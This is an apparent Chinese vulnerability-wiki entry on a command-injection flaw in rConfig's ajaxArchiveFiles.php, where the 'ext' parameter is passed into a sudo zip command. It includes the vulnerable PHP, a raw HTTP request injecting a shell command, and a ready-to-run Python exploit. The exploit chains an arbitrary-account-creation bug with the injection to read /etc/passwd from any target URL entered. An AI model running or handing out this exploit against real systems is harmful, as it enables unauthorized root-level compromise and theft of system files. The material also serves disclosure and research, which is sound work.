


rConfig ajaxArchiveFiles.php 后台远程命令执行漏洞¶
漏洞描述¶
rConfig ajaxArchiveFiles.php文件中由于对path参数和ext参数进行命令拼接，导致攻击者可以远程命令执行获取服务器权限
漏洞影响¶
rConfig
网络测绘¶
app="rConfig"
漏洞复现¶
存在漏洞的文件
/home/rconfig/www/lib/ajaxHandlers/ajaxArchiveFiles.php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/config/functions.inc.php");
$log = ADLog::getInstance();
if (!$session->logged_in) {
echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
$log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
// need to add authentication to this script
header("Location: " . $config_basedir . "login.php");
} else {
//archive logs files
$mainPath = $_GET['path'];
$archiveMainPath = $mainPath . "archive/";
$ext = "*." . $_GET['ext'];
$fullpath = $mainPath . $ext;
// create and archive dir if not already created
if (!is_dir($archiveMainPath)) {
mkdir("$archiveMainPath");
}
$today = date("Ymd");
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
exec($commandString);
foreach (glob($fullpath) as $v) {
unlink($v);
}
$fileCount = count(glob($mainPath . $ext));
if ($fileCount > 0) {
$response = json_encode(array(
'failure' => true
));
} else {
$response = json_encode(array(
'success' => true
));
}
echo $response;
} // end session check
关键代码如下
$mainPath = $_GET['path'];
$archiveMainPath = $mainPath . "archive/";
$ext = "*." . $_GET['ext'];
$fullpath = $mainPath . $ext;
// create and archive dir if not already created
if (!is_dir($archiveMainPath)) {
mkdir("$archiveMainPath");
}
$today = date("Ymd");
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
exec($commandString);
ext参数 用户可控
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
没有使用过滤直接拼接命令，导致命令执行，并因为sudo而root权限执行，由于是后台漏洞所以需要登录，配合任意用户创建可以RCE
请求包为
GET /lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;ls%3E../../test.txt HTTP/1.1
Host:
Cookie: cookname=testtest; cookid=a13be657db5e18e453c66c564467b0f2; PHPSESSID=lr7j5r2beat1eprpklrhiorq71
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 2
再请求 http://xxx.xxx.xxx.xxx/test.txt 验证漏洞

漏洞POC¶
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from : http://wiki.peiqi.tech
import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from requests_toolbelt.multipart.encoder import MultipartEncoder
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: rConfig userprocess.php 任意用户创建漏洞 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/lib/crud/userprocess.php"
referer = target_url + "useradmin.php"
ran_number = random.randint(1, 999)
origin = target_url
multipart_data = MultipartEncoder(
fields={
'username': 'testtest{}'.format(ran_number),
'password': 'testtest@{}'.format(ran_number),
'passconf': 'testtest@{}'.format(ran_number),
'email': 'testtest{}@test.com'.format(ran_number),
'ulevelid': '9',
'add': 'add',
'editid': ''
}
)
headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer,
"Origin": origin}
cookies = {'PHPSESSID': 'test'}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(vuln_url, data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)
if "error" not in response.text:
username = 'testtest{}'.format(ran_number)
password = 'testtest@{}'.format(ran_number)
print("\033[36m[o] 成功创建账户 testtest{}/testtest@{} \033[0m".format(ran_number, ran_number))
POC_2(target_url, username, password)
else:
print("\033[31m[x] 创建失败:{} \033[0m")
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
def POC_2(target_url, username, password):
print("\033[36m[o] 正在登陆账户..... \033[0m")
vuln_url = target_url + "/lib/crud/userprocess.php"
headers = {
'Content-Type': "application/x-www-form-urlencoded; charset=UTF-8",
"Referer": target_url + "deviceConnTemplates.php",
"Origin": target_url,
"X-Requested-With": "XMLHttpRequest",
"Accept-Language": "en-US,en;q=0.5"
}
data = {
'user': username,
'pass': password,
'sublogin': '1'
}
try:
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
print("\033[36m[o] 正在尝试执行 cat /etc/passwd.....\033[0m")
with requests.Session() as s:
p = s.post(target_url + '/lib/crud/userprocess.php', data=data, verify=False)
if "Stephen Stack" in p.text:
print("\033[31m[x] 登录失败 \033[0m")
else:
rce = s.get(target_url + '/lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;cat%20/etc/passwd%3E../../test.txt', verify=False,
headers=headers)
if "success" in rce.text:
response = s.get(target_url + '/test.txt', verify=False)
print("\033[36m[o] 成功执行 cat /etc/passwd, 响应为:\n{} \033[0m".format(response.text))
else:
print("\033[31m[x] 请求失败 \033[0m")
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
